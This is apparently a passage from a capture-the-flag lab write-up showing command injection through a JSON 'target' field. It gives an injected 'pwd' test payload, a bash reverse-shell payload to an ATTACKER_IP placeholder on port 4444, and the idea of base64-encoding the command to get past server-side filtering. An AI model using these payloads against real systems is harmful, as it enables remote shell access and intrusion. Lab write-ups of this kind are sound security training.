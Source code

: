 *While the technique used in the aforementioned website is not exactly the same as in this room, the overall logic is quite similar!*

---

Let's try sending this payload:

```
{"target":"\";pwd \""}
```

<img style="float: left;" src="screenshots/screenshot9.png">

Nice, the `pwd` command was run, proving that command injection is possible!

With that, let's try to open a reverse shell back to our machine. I'll be using the following payload:

```
{"target":"\";bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1 \""}
```

With my netcat listener up and running, I sent the following request:

<img style="float: left;" src="screenshots/screenshot10.png">

Hmmmm, looks like there is some server-side filtering going on. We can easily bypass this by encoding our command with base64, then decoding it on the server-side.

After encoding our command, we get back the following encoded string:

<img style="float: left;" src="screenshots/screenshot11.png">
